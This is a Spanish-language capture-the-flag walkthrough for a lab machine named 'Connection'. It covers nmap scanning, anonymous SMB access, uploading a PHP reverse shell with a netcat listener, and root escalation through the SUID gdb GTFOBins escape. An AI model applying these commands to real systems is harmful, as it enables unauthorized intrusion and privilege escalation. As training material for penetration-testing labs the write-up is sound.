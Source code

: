 # Connection

-------
### Fase de Escaneo

Primero realizamos un arp-scan para saber la ip de la máquina objetivo.

```
sudo arp-scan -I eth0 --localnet
```

Realizamos un escaneo de los puertos abiertos de la máquina

```
sudo nmap -p- --open- -sS --min-rate 5000 -vvv -n -Pn <ip> -oG allPorts
```

Hacemos un escaneo de las versiones de los puertos abiertos.

```
nmap -sCV -p<puertos><ip> -oN Targeted  
```

---
### Fase de enumeración

Hacemos una enumeración al puerto 445 el cual corre el servicio de smb.

>[!tip]
>Las carpetas que contienen "$" están previamente configuradas, las que no necesitan contraseñas son las que no los tiene.

```
smbclient\\\<ip>\\<carpeta>
```
---
### Fase de Explotación

una vez ya adentro del servicio de smb, subiermos un archivo php malicioso, para que nos otorgue una bash interactiva. 

>[!info]
> Utilizamos esta web para obtener el codigo que nos regrese una bash a nuesta ip. [reverseshell.com](https://www.revshells.com/)

subimos el archivo malicioso.

```
smb/> put shell.php
```

nos colocamos en modo escucha por el puerto que asignamos en el archivo php por netcat.

```
nc -lvnp 4444
```
---
### Tratamiento de la TTY

```
script /dev/null -c bash
``````

```
ctrl + z
stty raw -echo; fg
reset xterm
```

```
export TERM=xterm
export SHELL=bash
```
---
### User Flag

Obtuvimos la primera flag.

```
cat /home/connection/local.txt
```
---
### Escalada de Privilegio

Con este comando buscamos desde la raíz los binarios con permisos SUID y los errores le decimos que los redirija al /dev/null

```
find / -perm -4000 2>/dev/null
```

Encontramos un binario para explotar.

```
/usr/bin/gdb
```

>[!tip]
>podemos utilizar esta página para realizar la explotación [GTFOBins](https://gtfobins.github.io/)

```
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```
---
### Flag Root

Obtenemos la flag root y máquina totalmente pwned.

```
cat /root/proof.txt
```

